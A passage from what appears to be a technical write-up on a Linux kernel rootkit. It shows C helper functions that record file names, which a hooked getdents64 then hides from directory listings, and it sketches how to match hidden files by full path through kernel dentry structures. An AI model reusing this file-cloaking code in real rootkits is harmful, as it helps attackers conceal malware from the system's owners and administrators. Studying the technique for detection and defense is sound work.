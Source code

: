 There are some auxilary functions and data structures to help with the function, both are simple so I will ignore them.

```c
struct cloak_ent{
    unsigned int name_len;
    char name_buf[MAX_CLOAK_FILE_NAME_LEN];
};


static int add_cloak_file_name(char* name){
    int name_len;
    int i_ent;

    name_len = strlen(name);
    for(i_ent=0;i_ent<MAX_CLOAK_FILE_COUNT;i_ent++){
        if(!cloak_ent_array[i_ent].name_len) break;
    }
    if(i_ent == MAX_CLOAK_FILE_COUNT-1 && cloak_ent_array[i_ent].name_len) return -1; // too many files to fide

    memset((char*)&cloak_ent_array[i_ent].name_buf, 0, name_len);
    memcpy((char*)&cloak_ent_array[i_ent].name_buf, name, name_len);
    cloak_ent_array[i_ent].name_len = name_len;
    return i_ent;
}


static int is_file_cloaked(char* name){
    unsigned int name_len = strlen(name);
    int i_ent;
    for(i_ent=0;i_ent<MAX_CLOAK_FILE_COUNT;i_ent++){
        if(cloak_ent_array[i_ent].name_len == name_len){
            if(!strcmp((char*)&cloak_ent_array[i_ent].name_buf, name)){
                return i_ent;
            }
        }
    }
    return -1;
}
```



The implementation is simple, yet there is a trivial flaw: the *fake_getdents64()* will hide files with the same name in the whole file system. Actually, a better implementation is: we specify a definite path for the file we want to hide, and for each call to *getdents64()* we check the fd's definite path and compare it with our file. The fd's definite path can be obtained by

```c
current_task->files.fd_array[FD].path.dentry->d_dname
current_task->files.fd_array[FD].path.dentry->d_parent->d_name
....
```
